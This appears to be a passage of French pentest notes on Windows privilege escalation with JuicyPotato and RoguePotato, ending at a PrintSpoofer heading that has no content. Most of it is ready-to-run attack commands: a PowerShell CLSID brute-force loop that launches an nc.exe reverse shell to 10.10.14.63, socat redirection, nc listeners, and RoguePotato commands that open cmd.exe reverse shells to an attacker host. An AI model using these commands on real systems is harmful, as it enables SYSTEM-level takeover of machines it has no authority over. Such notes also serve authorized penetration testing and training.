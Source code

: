 si COM -> recv failed with error: 10038 -> Bruteforce de CLSID

```powershell
foreach($clsid in ((cat .\CLSID.list))){c:\windows\temp\JuicyPotato.exe -l 53375 -p c:\windows\system32\cmd.exe -a "/c c:\windows\temp\nc.exe 10.10.14.63 8443 -e cmd.exe" -t * -c $clsid}
```


# RoguePotato (2019 / Win 10.0.17763)

https://github.com/antonioCoco/RoguePotato
https://github.com/int0x33/nc.exe/

Passer NC.exe et RoguePotato sur la cible

## Depuis linux

Sur machine attaquant

```bash
sudo socat tcp-listen:135,reuseaddr,fork tcp:<ip_target>:9999
```

```bash
nc -lvnp 1234
```

sur target

```cmd
c:\Users\Public\RoguePotato.exe -r <attacker_ip> -e "C:\Users\Public\nc.exe <attacker_ip> <listener_port> -e cmd.exe" -l 9999
```

## Depuis Windows

Sur machine attaquant

```cmd
c:\Users\Public\RogueOxidResolver.exe -l 9999
```


sur target

```cmd
c:\Users\Public\RoguePotato.exe -r <attacker_ip> -e "C:\Users\Public\nc.exe <attacker_ip> <listener_port> -e cmd.exe" -l 9999
```


# PrintSpoofer (2019 / Win 10.0.17763)

https://github.com/itm4n/PrintSpoofer
https://github.com/int0x33/nc.exe/

Passer NC.exe et PrintSpoofer sur la cible
